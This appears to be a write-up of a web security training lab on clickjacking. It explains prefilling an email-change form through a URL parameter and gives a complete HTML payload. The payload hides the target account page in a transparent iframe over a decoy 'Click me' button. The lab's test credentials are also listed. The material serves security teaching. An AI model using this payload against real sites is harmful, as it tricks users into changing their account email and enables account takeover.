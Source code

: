 ### Lab Description

![lab2-desc](https://github.com/user-attachments/assets/f71c6a75-5009-4552-90ce-974afb50842e)

### Solution
This lab allows email changes by pre-filling form fields using URL parameters. The goal is to trick the user into clicking "Update email" on a decoy site.

Use the same credentials:
`wiener:peter`

The email change functionality is a simple form.


![lab2-form](https://github.com/user-attachments/assets/7c4d0efe-5c3e-455f-94be-73365040f089)

I change the email address of wiener and check the content of the request in Burp:


![lab2-burp](https://github.com/user-attachments/assets/a0da6a58-2244-4836-b1fa-dfd044c881d5)

The correct method is using `?email=` in the iframe URL. JavaScript cannot access iframe due to origin policy.

Prefill email field by navigating to:

`https://.../my-account?email=mail@evil.me`

<img width="855" height="162" alt="image" src="https://github.com/user-attachments/assets/9209ac82-b817-49c0-91e4-9e76bcbae272" />


<img width="977" height="634" alt="image" src="https://github.com/user-attachments/assets/d091bf0b-ca77-4e16-a20e-d37537fab13f" />


```html
<head>
  <style>
    #target_website {
      position: relative;
      width: 600px;
      height: 600px;
      opacity: 0.1;
      z-index: 2;
    }
    #decoy_website {
      position: absolute;
      width: 600px;
      height: 600px;
      z-index: 1;
    }
    #btn {
      position: absolute;
      top: 440px;
      left: 70px;
    }
  </style>
</head>
<body>
  <div id="decoy_website">
    <button id="btn">Click me</button>
  </div>
  <iframe id="target_website" src="https://id.web-security-academy.net/my-account?email=test@test.com"></iframe>
</body>
```

---